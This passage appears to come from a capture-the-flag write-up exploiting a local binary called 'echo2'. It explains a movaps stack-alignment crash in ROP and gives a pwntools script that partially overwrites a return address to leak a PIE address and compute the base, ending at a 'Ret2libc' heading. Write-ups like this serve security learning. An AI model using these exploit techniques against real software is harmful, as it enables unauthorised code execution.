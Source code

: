 ```
Dump of assembler code for function main:
   0x0000563f2bc30247 <+0>:     endbr64
   0x0000563f2bc3024b <+4>:     push   rbp
   0x0000563f2bc3024c <+5>:     mov    rbp,rsp
   0x0000563f2bc3024f <+8>:     mov    rax,QWORD PTR [rip+0x2dca]        # 0x563f2bc33020 <stdout@GLIBC_2.2.5>
```


One thing to note is that if we just return directly to the start of main, we hit an error within the scanf call and the program segfaults. This happens on a movaps instruction, and this is a known issue in ROP, as described here: <https://ropemporium.com/guide.html>. The error occurs because of stack alignment issues; while the linked resource recommends adding extra padding ret instructions, we don't have that option here because of the necessity of partial overwrite. A decent alternative is to try returning after the push rbp instruction, which changes the way that the stack is aligned and seems to work nicely here. For some reason, returning after the calls to setvbuf can also sometimes work nicely when faced with similar situations.
```
 → 0x7fbc89adeae4                  movaps XMMWORD PTR [rbp-0x600], xmm1
 ```
 Here is the payload to manage the partial overflow and parse the PIE leak. 
 ```
 from pwn import *

target = process('./echo2')

pid = gdb.attach(target, 'b *echo+125\ncontinue')

elf = ELF('echo2')

print(target.recvuntil(b'Echo2\n'))

#Note: we have a persistent I/O issue whereby the newline from the scanf is being read by the fgets call. It was easiest to just compensate by decrementing padding length by one.
padding = b'a' * 279
payload = padding + b'\x4c'

target.sendline(str(len(payload)+1))

target.send(payload)

print(target.recvuntil(b'Echo2: '))

print(target.recv(280))
leak = target.recv(6)
print(leak)
main = u64(leak + b'\x00' * 2) - 5
print(hex(main))
pie_base = main - elf.symbols['main']


target.interactive()
 ```
 ## Ret2libc on 2.35
 